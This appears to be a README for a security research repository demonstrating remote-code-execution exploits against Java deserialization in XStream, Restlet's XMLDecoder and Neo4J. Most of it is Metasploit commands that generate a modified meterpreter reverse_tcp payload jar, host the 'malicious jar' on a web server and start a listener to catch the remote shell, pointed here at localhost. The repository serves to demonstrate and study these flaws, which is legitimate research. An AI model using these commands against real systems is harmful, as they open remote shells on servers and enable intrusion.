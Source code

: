 ## Demos

* SpringXStream: Idea project with a SpringMVC RESTful application using XStream and RCE exploits
* RestletXMLDecoder: Java Project with a Restlet application using object representation and RCCE exploits
* Neo4J: Both server and RCE exploits

## Using Metasploit
The demos have been weaponized to use meterpreter sessions. Meterpreter have been modified to run the payload at object instantiation time. Once your MSF installation has been modified to use the modified meterpreter session (download it from https://github.com/pwntester/metasploit-javapayload), run the following command to generate the malicious jar.
./msfpayload java/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 R > met.jar

### Place the malicious jar somewhere to be be found:
cp met.jar /Users/alvaro/Sites (http://localhost/~alvaro/met.jar)

### Start the msf listener
use exploit/multi/handler
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST  127.0.0.1
set LPORT 4444
exploit

